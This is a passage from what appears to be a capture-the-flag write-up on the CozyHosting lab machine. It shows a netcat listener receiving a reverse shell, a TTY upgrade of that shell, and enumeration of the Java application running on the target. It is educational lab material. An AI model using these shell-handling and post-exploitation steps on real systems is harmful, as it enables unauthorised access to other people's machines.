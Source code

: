 ```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.230 51348
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ 

```

I’ll upgrade my shell using [the script technique](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

app@cozyhosting:/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
app@cozyhosting:/app$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
app@cozyhosting:/app$

```

## Shell as josh

### Enumeration

#### Web Application

The web application is running out of `/app`, which container a Java Jar file:

```

app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar

```

That Jar is running:

```

app@cozyhosting:/app$ ps auxww | grep cloudhosting                   
app         1063  0.7 14.9 3672520 599428 ?      Ssl  Feb26   7:37 /usr/bin/java -jar cloudhosting-0.0.1.jar

```

That process is listening on 8080:
